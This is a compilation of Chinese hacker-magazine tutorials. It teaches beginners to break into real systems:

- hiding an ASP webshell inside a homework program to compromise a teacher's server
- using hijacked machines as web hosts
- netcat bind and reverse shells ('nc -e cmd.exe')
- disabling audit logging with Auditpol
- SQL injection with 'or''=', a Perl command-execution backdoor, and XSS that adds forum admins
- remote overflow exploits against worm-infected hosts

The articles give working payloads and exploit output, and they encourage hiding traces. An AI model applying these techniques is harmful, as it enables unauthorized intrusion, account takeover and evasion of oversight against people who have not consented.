接下来我增加了一个文本框控件，用于存储 cmdasp.asp 的内容。可这时候我却遇到了问题，照理说文本框控件的 Text 属性值应该可以最多设置 32K 字节，可我每次最多能设置 257 字节。没办法，这个问题以后再去搞清楚。我只好再添加了六个文本框控件，如图 4 所示：

把 cmdasp.asp 中的内容分设为各个文本框控件的 Text 属性值，并且把七个文本框控件的 Visible 属性值设为 False，使七个文本框不可见，如图 5 所示：

最后在代码窗口中添加如下代码：

```vb
Private Sub Form_Load()
Open ".\jxTemp.asp" For Output As #5
Print #5, Text3.Text
Print #5, Text4.Text
Print #5, Text5.Text
Print #5, Text6.Text
Print #5, Text7.Text
Print #5, Text8.Text
Print #5, Text9.Text
Close 5
End Sub
```

这段代码的功能是使 exe 文件在装载的时候在上一级目录创建一个文件 jxTemp.asp，并且把刚才七个文本框控件 Text 属性值依次写入 jxTemp.asp，这样就能在上一级目录创建一个 cmdasp。

为什么要在那上一级目录创建呢？你想想，如果老师运行了程序，同目录下多了一个文件他会怎么办？呵呵……

三天后，VB 课上，老师在讲台上说：“同学们的作业我都看了，都做得很好……”

回到宿舍，打开电脑，在 IE 地址栏输入 jxTemp.asp 的地址后出现如图 6 所示界面：

OK！有了 webshell 的帮助，接下来要取得 administrator 权限的方法就很多了，在这里我就不说下去了。

事后我找到了那个有过滤作用的 asp 文件 jxStuUpload.asp，改名为 jxStuUpload.txt 后，我在 IE 里看了它的代码，其中起过滤作用的主要代码如下：

```asp
set MyFile = server.CreateObject("Scripting.FileSystemObject")
set MyText = MyFile.OpenTextFile (sFile, 1) '读文本文件
sTextAll = lcase(MyText.ReadAll): MyText.close
'判断用户文件中的危险操作
sStr = "8| .getfolder| .createfolder| .deletefolder| .createdirectory| .deletedirectory"
sStr = sStr & "| .saveas| wscript.shell| script.encode"
sNoString = split(sStr, "|")
for i = 1 to sNoString(0)
if instr(sTextAll, sNoString(i)) <> 0 then
sFile = Upl_Path & sFileSave: fs.DeleteFile sFile
Response.write "<center><br><big>" & sFileSave & "文件中含有与操作目录等有关的命令 " & _
"<br><font color=red>" & mid(sNoString(i), 2) & "</font> 为了安全原因, <b>不能上传. <b>" & _
"</big></center></html>"
Response.end
end if
next
```

希望这一小段代码对你以后开发网站有一点小小的帮助。这次能够成功，主要原因是老师没想到他那些刚学 VB 的学生会在作业上动动手脚。也许他是相信他的学生，可如果有人破解了一个同学的密码并且用自己的程序来代替学生提交的作业，那么服务器就很可能会遭到致命攻击。而且那么多同学的密码中往往有很多是弱口令。

所以，接下来我该做的就是在服务器上留封信提醒一下老师，不过千万不能留姓名，免得老师找上门来。:)

## 把肉鸡做成个人主页

聊神

最近一段时间，许多读者朋友问我到哪里能找到免费的主页空间。的确，现在在网上免费的东西已经很少见了，我也不知道在哪里能找到免费的主页空间。难道在网上安个家真的很难吗？不，作为一名黑客爱好者，就应该有黑客的精神，利用任何能够利用的东西。

许多读者都知道，入侵一般都要通过肉鸡进行，以便隐匿自己的痕迹。其实肉鸡不但能作为跳板，而且还能提供免费的主页空间。下面我将通过我的一次入侵过程，向急于寻找免费主页的读者介绍在肉鸡上创建免费空间。

首先准备好扫描工具 X-scan，在“基本设置”里随便填入一段 IP 地址，在扫描参数设置的“端口相关设置”里的“待检测端口”选项中填入 80，如图 1、图 2 所示。


在“扫描模块”里选择开放端口和 NT-SERVER 弱口令后，开始扫描，如图 3 所示。


这样做的目的主要是想要找到开了 80 端口、提供 HTTP 服务的肉鸡，因为很多肉鸡安装了 HTTP 服务，却并没有使用它，这不是浪费吗？

好，扫描结束，你现在能看到既开放了 80 端口，又有 NT-SERVER 管理员弱口令的计算机，如图 4 所示。


这时拿出 DameWare 远程控制软件，在“IP 地址”中填入计算机的 IP，并输入刚才扫描到的 NT-SERVER 管理员名和密码，如图 5 所示。

连接成功后，你会发现肉鸡的一举一动都在你的屏幕上显示出来了，如图 6 所示。原来这是一台网吧服务器，正好，我们要的就是这种既能长时间在线，又提供 HTTP 服务的肉鸡。


接下来我们进行第二步操作，通过远程控制软件设置肉鸡上的 HTTP 服务（因为现在的时间正是网吧的营业时间，所以只有在我的计算机上进行演示了）。在“开始”菜单→“程序”→“管理工具”→“计算机管理”中选择默认 WEB 站点，编辑其属性，如图 7 所示。


首先选择“主目录”，如图 8 所示，这时你可以看到“此计算机上的目录”、“另一计算机上的共享位置”和“重定向到 URL”三个选项。为了方便，我在这里选择的是“此计算机上的目录”，如果读者还有其它肉鸡的话，还可以选择后两种，这样安全性会更好一点，这里就不多说。

接着再在本地路径中输入你存放主页的目录，这里我们使用 D:\winnt\system32\love（这就是 WEB 的主目录）。因为这个 LOVE 目录还没有建立，现在我们还应该用 `net use x: \\肉鸡IP\d$ "" /user:administrator` 命令把肉鸡的 D 盘映射成为我的 X 盘，然后在我的 X:\winnt\system32 目录下用 `MD LOVE` 命令建立 LOVE 这个目录。这样存放主页的主目录就设置好了，你只需要把你做好的主页复制到你的 X:\winnt\system32\love 这个目录下就行了（直接用 XCOPY 命令成批复制文件比用 FTP 一个一个上传文件要方便许多），然后再在 IE 浏览器中输入 `http://肉鸡IP/你的网页名称`，就能看到你做好的主页了，如图 9 所示。


因为你所做的网页应该有一个默认的主页，所以你还应该在 Internet 信息服务中进行设置。重复第二步的操作，在“开始”菜单→“程序”→“管理工具”→“计算机管理”中选择默认 WEB 站点，编辑其属性，选择文档，把启用默认文档里的几个文档删除，增加你默认启动的文档，这里是 love.html，如图 10 所示。设置好以后，这样只需输入肉鸡的 IP 就能看到你默认启动的主页了。


这是在肉鸡上做的主页，为了避免很快被发现，还应该在刚才设置的属性里选择“目录安全性”→“编辑 IP 地址及域名限制”这一项，选择“授权访问”，添加“例外”的 IP 地址，“127.0.0.1”和“肉鸡的 IP 地址”两项，如图 11 所示。这时肉鸡自己就不能访问你做的网页了，增加了一定的安全性。

上面的一切都做好之后，你还应该申请一个免费的域名，这样做的好处有两点。第一，因为域名比肉鸡的 IP 更容易让人们记住；第二，因为主页是建在肉鸡上的，即使这个肉鸡被发现了，你只需要把域名所指向的 IP 地址改变一下就行了，而不用更改你的主页名。这种提供免费域名的网站很多，我用的就是 http://my.126.com/modify-new.htm 的。

这时还有一件最重要的事没有做，那就是清除入侵痕迹，这里就不多说了。


通过上面的介绍，我想大多数渴望能有免费空间的读者都能够找到自己的免费空间了。肉鸡上不但能做代理、做主页，而且还能提供论坛、邮箱等许多服务，有兴趣的读者可以自己研究。也可在 http://www.cnlongker.com 论坛上跟我（聊神）交流。

> **LOOK 注意**：这里还要补充一点，因为是在肉鸡上建立的，所以稳定性就不太好了，资料随时都有可能被删除，一定要有备份才行。有条件的读者最好还是申请那种收费空间。

以上内容仅供学习交流，非法使用后果自负。

## 你最喜欢的文章

## 黑软军刀 NC

python

如果说，你还不知道什么是 NC 的话，HOHO！那你就太逊了！不过没关系，今天我就带大家来领教一下元老级的黑软工具——NC，为大家介绍一下 NC 在 Windows 下的常见用法，希望通过几个常用的简单使用方法，大家能对 NC 有一定的了解。

（注：完成以下命令的充分必要条件：笔者使用的是大小为 58K 的 NC，而且是 for Windows 版的。所以，如果想使用下面这些命令的话，就去找一个 58K 的、没有被编译过的 NC 吧！光盘中有收录）

### 1. nc1

```
nc -l -p port
nc -l -p port > e:\log.dat
nc -l -v -p port
```

以上三种用法都是 NC 的本地端口监听，只不过根据添加的参数不同而意义有所不同。接下来，我们针对三种方式进行介绍（这里我们以监听端口 80 为例）：

#### 参数解释：

- -l：监听端口，监听入站的信息（即，进入本地机的信息）
- -p：后跟本地端口号
- -v：显示端口的信息，如果使用 -vv 的话，则会显示端口更详细的信息

#### nc -l -p 80

这个很简单，就是监听端口 80，此时，如果机器上运行了这个命令，端口 80 被认为是开放，可以欺骗过很多扫描器。

#### nc -l -p 80 > e:\log.dat

这个命令和上面一样，针对端口 80 的监听模式，但后面的部分“> e:\log.dat”，我想会 DOS 命令的朋友应该不陌生吧！这个命令是将本地端口 80 上的一些入站动作记录成日志。例如，我在本机上运行这个命令（图 1）：

```
nc -l -p 80 >> e:\log.dat
```


图 1

然后，从远程机上（其 IP 地址为 192.168.0.2）用 IE 来访问本机。

这时，当远程机成功访问到本机的 Web 时，会发现使用 nc 命令来监听的端口 80 已经不再处于监听状态（图 2）。

这时候，我们就可以到 E 盘下去找那个 log.dat 文件了，找到后，用记事本或其他编辑器来打开它，会发现里面记录了很多东西（图 3）。


图 2


图 3

从这个 log.dat 里可以看到不少东西，例如“Host”一行，就记录了本机的 IP 地址。还有 Host 的上一行，可以看出，远程主机使用的是 MSIE6.0，即通过 Microsoft Internet Explorer 6.0 来进行浏览访问 Web。而且，还获得了对方的系统版本号 Windows NT 5.1。Windows NT 5.1 是什么大家知道么？以前的 NT 就是 NT4.0，现在常用的 Win2k 则是 Windows NT 5.0，那么 Windows NT 5.1 则是 Win2k 之后的 Windows XP 了。

#### nc -l -v -p 80

和上面的命令作用相似，不过这次不是记录在文件里，而是直接显示在运行着 nc 的屏幕上。

在本机上运行 nc -l -v -p 80，然后远程机通过 IE 来浏览本机的 Web，会有如图 4 所示的结果。


图 4

从图 4 中不难看出，和 log.dat 里记录的其实是一样的内容。所以就不多说了。

### 2. nc2

```
nc -l -p port -t -e cmd.exe
local machine: nc -l -p port (or nc -l -v -p port)
remote machine: nc -e cmd.exe ip port
```

以上的三个命令，分为两组，主要都是使用了 NC 的程序重定向的功能。

#### 参数解释：

- -l、-p 两个参数已经解释过了
- -e：作用就是程序重定向。大家看过端口重定向吧？其实意思和那个差不多，这里就是把程序重定向一下。
- -t：以 telnet 的形式来应答，好像很难表述清楚，大家看具体例子吧。

具体用法吧！以端口 5277 为例：

```
nc -l -p 5277 -t -e cmd.exe
```

OK！这个命令，怎么样？

知道运行在哪里吗？千万不要运行在自己的机器上，如果运行在自己机器上的话，那你的机器就成为一台 telnet 服务器了。解释一下意思：监听本地端口 5277 的入站信息，同时将 cmd.exe 这个程序重定向到端口 5277 上，当有人连接的时候，就让程序 cmd.exe 以 telnet 的形式来响应连接请求。

说了这么多，其实就是做一台 telnet 的肉鸡。所以，这个命令要运行在你的肉鸡上。

对了，看这个命令的效果，大家是否眼熟呢？

ncx99 这个小家伙不少人用过吧？就是在对方机器上运行后，只要一 telnet ip 99 就可以了，这里其实是一样的效果，不过这里的端口不一样而已，所以要 telnet ip 5277。

telnet 上去后，怎么做，不用我教了。

接下来说一下这两个命令，很有意思：

```
local machine: nc -l -p port (or nc -l -v -p port)
remote machine: nc -e cmd.exe ip port
```

先说点别的，别走开！这也是相关知识点呢。

不知道大家用过网络神偷或是灰鸽子没有，这两匹马都是属于端口反弹型的木马。什么叫“端口反弹”？就是说，当对方中马后，不用你主动和对方连接，也就是说，不用从你的 client 端向对方主机上运行的 server 端发送请求连接，而是对方主动来连接你。这样，就可以使很多防火墙失效，因为很多防火墙都不检查出站请求的。

这里，这两个命令结合在一起后，与灰鸽子这类木马软件可以说是有异曲同工之效。为什么？这里就给大家详细介绍：

先在本地计算机上，也就是大家使用的计算机上运行这个命令：

- nc -l -p 5277（监听本地端口 5277）
- 同样地，也可以用这个命令：
- nc -l -v -p 5277（多一个参数 -v，前面已经说过了）

上面两个命令任意一个，运行在本地机。

然后，在远程主机上（也就是你要入侵的主机上），想法运行这个命令：

```
nc -e cmd.exe ip 5277
```

（这里的 IP，是指你主机的 IP，也就是运行有命令 nc -l -p 5277 的那台主机的 IP）

当在远程机上启动 nc -e cmd.exe ip 5277 命令后，很快在本地机将会发现，在命令 nc -l -p 5277 下，出现了一个远程主机运行着 nc 的位置的提示符。也就是说，如果远程主机的 nc 在目录 c:\windows\system32 下的话，那么在本地机将会出现 c:\windows\system32> 提示符，这就说明夺取了对方的一个 shell，接下来可以为所欲为了……

也许上面这么介绍不太清楚，所以这里给大家看一下（两台主机）：

- （1）在 192.168.0.1 上运行命令：nc -l -v -p 5277
- （2）在远程主机 192.168.0.2 上运行命令：nc -e cmd.exe 192.168.0.1 5277

远程主机的 nc 在 c:\windows\system32 下。图 5 是本地主机 192.168.0.1 上运行着命令：nc -l -v -p 5277。

这时候，如图 6 在远程主机 192.168.0.2 运行命令：nc -e cmd.exe 192.168.0.1 5277。


图 5


图 6

由于我的两台电脑是直连，所以在本地机上，很快就得到了这个 shell（图 7）。


图 7

从图 6 中可以看出，这个 shell 来自远程主机 192.168.0.2，并且还获得了远程机的操作系统类型的信息：Windows XP。

OK！说到这里，大家应该清楚多了吧？这组命令是很好玩的！以后入侵的时候多用一下……

### 3. nc3

```
nc -v ip port
nc -v -z ip port-port
nc -v -z -u ip port-port
```

总的来说，上面的三个命令都是扫描端口用的，但是其具体作用还有一些差别，因此分三条命令来讲。

#### 参数解释：

- -z：将输入输出关掉，在扫描的时候使用

- nc -v ip port  
这个命令是针对某一个端口进行扫描的。

例如：nc -v 192.168.0.2 135


图 8


图 9

扫描远程机 192.168.0.2 的 135 端口（图 8）。这样，获得了该端口的一些简单信息，但是针对某些端口，还可以获得更具体的信息，例如端口 80。

我们可以使用命令：nc -v 192.168.0.2 80，然后再使用 get 方法来获得对方的 Web 服务器的信息（图 9）。

从图 9 中，可以看到相当多的对方 Web 服务器的信息，至少，我们可以知道，远程机使用了 Apache 的服务器，而且版本是 1.3.27。

这个和大家常用的一个命令 telnet ip 80，然后再 get 其实原理是一样的。只是一个实现过程和手法的问题而已。这个命令就说这么多了。

```
nc -v -z ip port-port
```

这个命令是用来扫描的一个命令，这个命令用于快速扫描 TCP 端口，而 port-port 则是指定了扫描的端口范围，例如：nc -v -z 192.168.0.2 1-200。

从图 10 可以看到，扫到了 192.168.0.2 的端口号 1-200 范围内的所有开放的 TCP 端口。


```
nc -v -z -u ip port-port
```

这个命令比上一个命令多了一个参数 -u，但是，这个命令的作用仍然是扫描端口，只是多 -u 参数的命令，是用来扫描 UDP 端口的。

例如，命令 nc -v -z -u 192.168.0.2 1-200，这个命令就会扫描 192.168.0.2 主机的 1 到 200 号的 UDP 端口（图 11）。


### 4. nc4

```
local machine: nc -v -n ip port < x:\svr.exe
remote machine: nc -v -l -p port > y:\svr.exe
```

#### 参数解释：

- -n：指定数字的 IP 地址

这两个命令结合起来是用来传送文件的，其实在 DOS 中，“<”和“>”这两个符号就经常被用到。只要大家对 DOS 有一定的了解，再了解了 nc 的参数，这两个命令看起来应该不太难的。

首先，在本地机上运行命令：  
nc -v -l -p 5277 > c:\svr.exe（图 12）


这个命令大家应该比较熟悉了吧，就是在本地监听端口 5277，并把端口 5277 接收到的入站数据写到 C 盘根目录下的 svr.exe 文件中……

这时候，远程主机上会显示“listening on [any] 5277 ...”。

然后，在本地机上运行命令：  
nc -v -n 192.168.0.2 5277 < e:\svr.exe（图 13）


这个命令的意思就是，从本地机 E 盘根目录中读取 svr.exe 文件的内容，并把这些内容发送到远程主机 192.168.0.2 的 5277 端口上。这样，结合远程主机上运行的那个命令，就可以传送数据 svr.exe 了。

当远程主机上显示出图 12 中被线圈中的那些文字提示，就说明文件传送完毕了。

这时候，该怎么做，该做什么，就看你的了。

OK！以上就是常见的几种 NC 的使用方法，希望通过这些，大家能自己发挥想象力，创造出更多精彩的命令来，因为 NC 的用法可不仅仅局限于这几种而已哦！对 NC 来说，只有想不到，没有做不到……

## 几款实用小工具

### 欲望之翼

### 介绍的几个小工具

- Raptor.exe
- Auditpol.exe
- Fport.exe

### Raptor.exe

菜鸟现在找肉鸡喜欢用 Winntautoattack（X 档案前几期有介绍），但产生的结果有时很让人头痛（图 1）。

从图 1 可以看到，我们扫到了好多肉鸡，里面的代码什么的可以通过替换来实现，但是空格呢？一个一个删？


这里我就给大家带来了 Raptor.exe 这个过滤器，界面挺酷的哦（图 2）！


下面我们就来删空格，把那个文本文件拖到 raptor 窗口里，然后只选“用户和口令只包含数字”这个选项。现在我们通过图 3、图 4 来比较一下吧：

过滤后美观了不少吧，文件也小了很多！raptor 的其他选项也很有用哦，大家一起去发掘吧！有了它，你不会再对庞大的扫描结果没有头绪了，赶紧去试试吧。

### Auditpol.exe

我们在入侵时，最后需要做的工作是清除日志，一个好的管理员他会制定审核策略，这样我们的行动就会被记录下来。笔者这里有个好工具推荐给大家用用，觉得不错，可以远程用的哦！

在 Windows NT/2000 系统盘中存在一个工具叫做 Auditpol，它可在 shell 下轻易关闭审计功能。如图 5。下面给大家举一例子，介绍使用方法：

**例子：**我们得到了主机 125.125.125.125 的一个账户，我们现在要进去修改远程主机的安全策略。

**（注意：账户必须有管理员权限）**


### 1．我们先建立 ipc 管道

```
D:\hacker>net use \\125.125.125.125\ipc$ "longker" /user:"longker"
```

#### 2．然后运行 Auditpol.exe

```
D:\hacker>Auditpol.exe \\125.125.125.125
```

上面的命令和下面的有同样效果：

```
D:\hacker>Auditpol.exe \\125.125.125.125 /disable
```

这样，我们就把对方主机的安全策略给消除了，可以好好干我们的事了，呵呵！当然，我们也可以单独对每个策略进行修改，参数很简单，这里就不说了。

好奇的读者会问，我们把他的安全策略改了，那管理员不是会发现吗？呵呵，这个很好解决。当我们即将离开目标系统时，就再次使用 Auditpol 的 /enable 参数重新打开审计功能：

```
D:\hacker>auditpol.exe \\125.125.125.125 /enable
```

Auditpol 仍然能保持审核功能的各项设定不变，让系统管理员神不知鬼不觉，而他的信息已经完全暴露给外界了。

所以我们以后在进入目标主机前，要先把它的审核策略改了，这样就安全许多了，小心驶得万年船，哈哈……

### Fport.exe

菜鸟问：如何知道自己电脑打开了哪些端口？打开的端口究竟是什么程序打开的？如果我得到了肉鸡，我怎么知道我的肉鸡是否已经被 K 了，是否被安装了后门呢？

确实，如果自己的电脑门户大开，那是很危险的，我们下面讲的肉鸡就是这样的。还有，自己的肉鸡如果被别人抢走，真的很痛心哦！所以，笔者向大家推荐显示本机开放端口与进程的对应关系的绝好工具——Fport.exe，这个程序同时也是一款小巧的入侵检测工具。

介绍这个工具之前，我们先来看看 Windows 本身自带的 netstat 命令，关于 netstat 命令，大家可以去看看 Windows 帮助文件中的介绍。

```
格式：netstat [-a] [-e] [-n] [-s] [-p protocol] [-r] [interval]
```

大家看完帮助文件后，应该明白 netstat 命令的使用方法了。现在就让我们用这个命令看一下自己的机器开放了哪些端口。

进入命令行下，使用 netstat 命令的 a 和 n 两个参数：

```
C:\>netstat -an
```

以上“Active Connections”是指当前本机活动连接，“Proto”是指连接使用的协议名称，“Local Address”是本地计算机的 IP 地址和连接正在使用的端口号，“Foreign Address”是连接该端口的远程计算机的 IP 地址和端口号，“State”则表明 TCP 连接的状态。

你可以看到后面三行的监听端口是 UDP 协议的，所以没有 State 表示的状态。看！我机器的 4000 端口已经开放，正在监听等待连接，那是因为我打开了 QQ。所以笔者要给大家推荐 fport.exe。

Fport 是工作在 Windows 2000 下的命令行工具，它可以显示本机系统中所有打开的 TCP/IP 和 UDP 端口，以及它们对应应用程序的完整路径、PID 标识、进程名称等信息的软件。

（注意：运行 fport.exe 需要管理员权限的哦！）

在命令行下使用，请看图 6。

```
C:\WINNT\system32>fport.exe /?
FPort v2.0 - TCP/IP Process to Port Mapper
Copyright 2000 by Foundstone, Inc.
http://www.foundstone.com
Usage:
    /p      sort by port
    /a      sort by application
    /i      sort by pid
    /ap     sort by application path

Special thanks to Gary Nebbett for light
```

图 6

上面是它的使用方法，很简单吧？好了，看看我找的肉鸡开了多少端口吧，看下不要大叫哦！本来就是肉鸡嘛。如图 7、图 8 所示：

看了图 7、图 8，是不是一目了然了。这下，各个端口究竟是什么程序打开的就都在你眼底下了。要注意图 7、图 8 中划线的几个，看看，被安了很多后门和木马吧！

下面，笔者就对这两幅图中划线的部分依次说明：

- 1. 这个是 telnet 后门，用 telnet ip 99 就可获取 shell 了；
- 2. Dameware 的服务端，别说你没有听说过 Dameware 哦；
- 3 和 4：是最近用得很烂的独裁者的服务端 wupdmgr32.exe 和独裁者的后门 winshell，这里改成了 srvsupp.exe；
- 5：这个在网吧的朋友一定清楚，和他打交道很久了吧？这是万象网吧管理的业务程序；
- 6 和 7：灰鸽子的服务端。晕了我，怎么这么多的后门和木马呀，一点也不好吃！这还真是真正的肉鸡，这个吃鸡的可真狠！可怜啊，所以一定要注意防范，如果你的机子变成这样的话，想哭吧……快用 fport.exe 看看你的肉鸡吧，有没有被 K，呵呵！


总结：这次介绍了几个笔者认为较好并且实用的小工具，对自己的入侵或安全检测有了很大的帮助，如果大家有什么好的使用心得，我们一起交流吧，大家一起进步最重要了！

本文所用到的工具可在光盘中找到。▩

## 构造特殊字符 / aaaa 进行渗透入侵

分析服务器的 Web 程序（如论坛、聊天室等），发现其程序编写的 Bug 或疏漏，从而进行 80 端口的渗透入侵，似乎只是黑客程序高手们的事情。

其实不然，虽然我们不会编写程序，但通过利用构造特殊字符，菜鸟一样可进行 80 端口的渗透入侵。

不相信？那好，看我用特殊字符精心打造的四把小李飞刀。

### 第一把飞刀 鱼目混珠

我们可以用它实现在论坛里的冒名发言。

如果你看中一个美眉，日思夜想地想让她在论坛里对全世界说声“我爱你”，美眉就是不说，怎么办？

打开记事本，按下 Tab 键或 CapsLock+Tab 键，就会形成一个特殊空格。将它复制下来，然后将空格放在和美眉相同的 ID 字符后进行注册。啊！果然成功注册了和美眉一个同样的名字，剩下的事就好办了。

形成特殊空格的字符还有区位输入法输入的“aaaa”“aaab”或“aaac”。我的经验是：用区位输入法输入 aaaa/aaab/aaac，在 ASP 编写的程序里成功率极高，而 Tab 键在 PHP 程序里成功率高。更可怕的是，在 Wdb 论坛和 IBB 论坛，用 Tab 键构造的特殊用户名可取得和原用户相同的权限。如果原用户名是管理员，那你构造的这个冒名用户也会变成管理员。

### 第二把飞刀 瞒天过海

在 ASP 动态网络编程中，经常会有验证管理员账号和密码的登录页面，以便进行后台管理。但在这样的身份验证里会存在一些漏洞，例如在用户名和密码框里都输入 'or''='，也可进入管理页面。

为什么会这样？我简单说一下。看源程序：

```asp
user=request.form("user")
pass=request.form("pass")
......
sql="select * from guestbook where user ='"&user&"' and pass='"&pass&"'"
```

如果将 user 和 pass 的值我们都输入 'or''='，那么上边的最后一行 SQL 代码就会变成：

```sql
sql="select * from guestbook where 
user ='' or ''='' and pass='' or ''=''"
```

## 你最喜欢的文章

``` 
user='or''='and pass='or''='
```

如果你懂一点 SQL 语句，就可看到，我们输入的 `'or''='` 满足了程序成真的条件值，所以我们就蒙蔽过关了。这样说太抽象了，图 1 所示的新闻文章管理系统就存在这个漏洞，这种程序在网上一抓一大把。用我提供的特殊字符，在账号和密码处都输入 `'or''='`，就可进入后台管理了，去试试吧！


图 1

### 第三把飞刀 暗渡陈仓

最近网络上出了不少关于入侵 lb 论坛的文章，无一例外，它们都谈到了构造特殊字符。众所周知，如果在一个 CGI 或 Perl 程序里写入 `system @ARGV;#` 这行代码，就会形成一个网页后门。用 `http://ip/*.pl?dir` 就会看到网站的物理目录（`*.pl` 文件里有 `system @ARGV;#` 这行代码）。


图 2

举个例子吧，agbii 是一个免费的 CGI 留言本，网上非常流行。而你在这个留言本里留言，都是以第 n 条留言的数目、用户名、标题、内容等来排列的，而且留的言都是按第 n 条留言顺序排放在一个固定目录 `data/用户名` 下。说起来好像很复杂，看图 2 就知道了。

大家仔细看图 2，我留了一条言，是这个网站留言本的第 10 条留言，我的用户名是“system”，标题是“@ARGV;#”，内容是“哈哈”。那么在 `data/222` 目录下的 `10.pl` 的文件内容就如图 3 所示。

仔细看填写留言的那个图，此留言本的用户是 222。然后我们执行 `http://192.168.1.3/book/data/222/10.pl?dir` 就会得到一个 shell（图 4）。


图 3


图 4

### 第四把飞刀 太公钓鱼

这是一个比较有趣也比较难利用的方法，也就是网上所说的跨站脚本攻击。

我说一招菜鸟可以利用的方法吧！先说一个有趣的：在 ubb 代码中（就是我们在论坛里发帖的代码）有一个 bug，在 `[img][/img]` 中，如果你插入的不是图像，而是一个 javascript 脚本，它同样会被执行。

我们在论坛里发一个帖子，内容如下：

``` 
[img]javascript:alert("黑客x档案")[/img]
```

当你点这个帖子时，就会弹出一个 JS 对话框，上书“黑客 x 档案”（图 5）。


图 5

如果写入：

``` 
[img]javascript:alert("黑客x档案");self.open("http://url")[/img]
```

那么，在弹出对话框后，又会接着打开一个新的网页窗口，如果我们在这个网页里放入网页木马会怎样呢？这里，我们先不谈网页木马。假如我们得知这个论坛加一个管理员 hack 的 url 是 `http://ip/bbs/upadmin?user=hack`（当然这个 url 是要以管理员身份执行才可以），那么我们写入这个 url，然后引诱这个论坛的真正管理员来看此帖。这个已登录论坛的管理员点击此帖后，hack 这个普通注册用户就会成为这个论坛的管理员了。

类似的办法还有上传附件。我们上传一个 txt 附件，txt 文件里就是这个加 hack 管理员的 url。由于 IE 浏览器的 Bug，只要服务器网站文件里的文件是 html 码，它就执行 html 网页，并不理会后缀名是什么。管理员点击此 txt 附件，同样可执行增加 hack 管理员的 url。至于在 `[img][/img]` 或 txt 文件里的 html、javascript 码我们可精心构造，可让论坛管理员点击后毫无察觉地执行一些 url 程序。

最后说明：这四把飞刀并不是锋利无比，在每个服务器上都可以刀刀封喉，但对网上的大多数论坛、聊天室或别的网页程序，还是那句话——小李飞刀，名不虚传。

## 守株待兔

雪莲蓬


不要误会，绝对不是守株待兔，而是正正宗宗的守罐待机。最近在网上找到一个小程序——PortBound（光盘中有收录），该程序的功能很简单，就是能绑定任意端口并模仿这个端口的服务，好像一个圈套程序哦！没错，程序的作者也称它为一个蜜罐。这么好的东西怎么能轻易放过？那么，我们就来看看怎样利用它来实现守罐待机吧！

运行这个程序之前，我们要考虑一下，现在最常见的病毒和蠕虫喜欢攻击哪些服务？这些服务所开的端口是哪些？这样才有利于我们正确地等待目标。从 Win2000 的 sp0 开始到 sp3，安全问题暴露得最多就属 80 端口了！什么 ida、idq 溢出、IIS5.0 NULL.Printer exploit、Unicode 以及最新的 Webdav 等漏洞！基于这些漏洞的蠕虫就有红色代码、尼姆达等多个变种的蠕虫！它们感染机器后，还会向连接在网络上的其他机器的 80 端口发送测试代码！没错！就是它了。

先模仿打开一个 80 端口，运行后点选“控制→配置”，在绑定端口处写入要打开的 80 端口，协议就用 Tcp 协议。绑定 IP 可点右面的下拉菜单选择。由于我是用路由经过 nat 映射端口，所以我的 IP 是 192.168.0.2。在发送数据一栏写入：

``` 
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: Thu, 22 Aug 2002 03:13:05 GMT
Content-Type: text/html
Content-Length: 172
```

这是一个标准的 http 头返回信息。  
如图 1 配置完成后，确定点击工具栏的绿色三角按钮开始监听！半个小时以后查看结果（图 2）。

不少机器连接，点击 Index 下面的编号，可看到对方发送的代码是 `GET /default.ida?XXXX……`，代码的长度是 3818。看代码可知道对方感染了红色代码病毒！也就是说，我们可用 iis5hack 对它进行溢出连接了！


``` 
D:\iis5hack>iis5hack xxx.xxx.142.173 80 1 99
iis5 remote printer overflow written by sunx
http://www.sunx.org
for test only, dont used to hack, :P
connecting...
sending...
checking...
Now you can telnet to 99 port
good luck :)
D:\iis5hack>telnet xxx.xxx.142.173 99

http://www.sunx.org
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

D:\WINNT\system32>
```


成功拿到它的 admin 权限！回头再看蜜罐，监测到一个完全不一样的连接数据！赶紧看看代码：`GET /scripts/root.exe?/c+dir HTTP/1.0`（图 3）。

这个代码太熟悉了！这是对方机器感染了尼姆达病毒发送出来的检测代码。因为尼姆达是利用 Unicode 漏洞进行传播的，所以本想用 TFTP 传文件上去，取得权限后才发现操作太麻烦，还不如用 IDQ 进行溢出（默认设置时，IDQ 与 Unicode 这 2 个漏洞是同时存在的）。


``` 
D:\iis5hack>IISIDQ 1 xxx.xxx.65.186 80 1 99
连接目的机器 xxx.xxx.65.186:80 OK
发送 shellcode 到 xxx.xxx.65.186:80 OK
```

``` 
代码发送完毕 good luck !
D:\iis5hack>telnet xxx.xxx.65.186 99
Microsoft Windows 2000 [Version 5.00.2195]
```

(C) 版权所有 1985-2000 Microsoft Corp.

``` 
D:\WINNT\system32>
```

利用 IDQ 溢出工具，几分钟后就取得了这台机器的最高权限。最后清理 80 端口监听的数据时，发现了这样一组数据（图 4）。


我多方面查找和实验，发现这组数据是一组 Webdav 的溢出数据。幸好我没有开 IIS 服务，不然我自己就成为别人的肉鸡了，呵呵！

80 端口侦听的同时，我还侦听了 udp 的 1434 端口（这个端口打开跟上面的端口一样，只不过要把 tcp 模式改为 udp 模式）。呵呵！前段时间的 sql 蠕虫王可不能放过。不过，目前这样的机器好像特别少，但皇天不负有心人，还是被我等到了一台（图 5）！可惜接收的代码看不了。


针对这个漏洞，只有用 sql2 来进行溢出了！先用 nc 打开一个监听端口，再用 sql2 溢出。

``` 
D:\iis5hack>nc -l -p 99
开启一个新的cmd窗口
D:\iis5hack>sql2 xxx.xxx.80.19 xxx.xxx.23.68 99 1（xxx.xxx.23.68 是我的公网出口，99 端口做了映射）
MSSQL SP 0, GetProcAddress 0x42ae1010
Packet sent!
If you don't have a shell it didn't work.
```


再看 nc 监听的端口，又成功了（不过这样的机器速度巨慢，因为资源都被蠕虫占用了，有耐心的朋友可给它补补漏洞、杀杀病毒）！

最后剩下的就是猜测弱口令的蠕虫了。

它们一般都使用 139 端口来连接，要检测这个端口比较麻烦。先要关掉自己的 139 端口才可以，这里我们用 Active Ports 这个工具（光盘中收录有该软件）来关闭（图 6）。

选中 445 端口，点左下角的关闭端口。关闭后运行蜜罐的 445 端口，不久之后回来查看结果（图 7），5 台机器连接过。

现在有个问题，这个蠕虫在感染机器后，会把默认的共享都删掉，以避免其他人连接。

不急，一般的机器都开着 135 端口，用个打开 Telnet 的脚本来给它开 Telnet 服务吧！推荐用 RTCS.vbs（光盘中可以找到）！

现在，你要做的就是猜它的弱口令，猜中了 Telnet 连接上去，你就是管理员了！

